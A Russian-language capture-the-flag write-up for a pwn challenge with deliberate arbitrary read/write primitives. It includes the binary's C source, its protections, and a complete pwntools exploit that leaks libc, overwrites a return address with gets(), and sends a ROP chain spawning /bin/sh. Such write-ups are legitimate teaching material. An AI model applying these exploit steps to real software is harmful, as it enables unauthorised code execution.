



Исходный код бинарника:
```c
size_t get_value() {
  char number[32] = {0};
  puts("Enter value.");
  puts(">>");
  fgets(number,18,stdin);
  size_t value = strtol(number,number+16,16);
  return value;
}

void arbitrary_write(size_t* addr,size_t value) {
  *addr = value;
}

size_t arbitrary_read(size_t* addr) {
  return *addr;
}

int main(int argc,char** argv) {
  int64_t option = 0;
  fflushx();
  while(1) {
    menu();
    option = get_value();
    switch(option) {
      case 1:
      {
        puts("Getting knowledge...");
        size_t addr = get_value();
        size_t val = arbitrary_read(addr);
        printf("Your knowledge: %lx\n",val);
      }
      break;
      case 2:
      {
        puts("Performing oneshot...");
        puts("Entering address...");
        size_t addr = get_value();
        size_t val = get_value();
        puts("Making shot...");
        arbitrary_write(addr,val);
      }
      case 3:
        exit(0);
      break;
      default:
        puts("Invalid number");
      break;
    }

  }
  exit(0);
}
```

Защиты бинарника:
```
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No
```

# Разработка эксплоита

Получение базы libc:
```py
def read(addr):
    io.writelineafter(b'>>', b'1')
    io.writelineafter(b'>>', hex(addr)[2:])
    io.readuntil(b'Your knowledge: ')
    return int(io.readline().decode().strip(), 16)

def write(addr, value):
    io.writelineafter(b'>>', b'2')
    io.writelineafter(b'>>', hex(addr)[2:])
    io.writelineafter(b'>>', hex(value)[2:])


io = start()

libc.address = read(exe.got['printf']) - libc.symbols['printf']
```

Через libc получим адрес адреса возврата в стековом фрейме функции `arbitrary_write()` (константа вычислена через gdb):
```py
environ = read(libc.symbols['_environ'])
retaddr = environ-0x180
```
В функции `arbitrary_write()` регистр `RDI` никак не затрагивается, соответственно функция, адрес которой записан в адресе возврата, получит такой же указатель, какой получила функция `arbitrary_write()`. Если перезаписать адрес возврата на адрес функции `gets()`, то она получит адрес стека как аргумент.


```py
write(retaddr, libc.symbols['gets'])
```

Запишем ROP в стек:
```py
rop = ROP(libc)
rop.system(next(libc.search(b"/bin/sh\x00")))
payload = fit({
    8: bytes(rop)
})
io.sendline(payload)
```


**Примечание**: скачать libc из docker контейнера можно так: `sudo docker cp <CONTAINER>:/lib/x86_64-linux-gnu/libc.so.6 .`
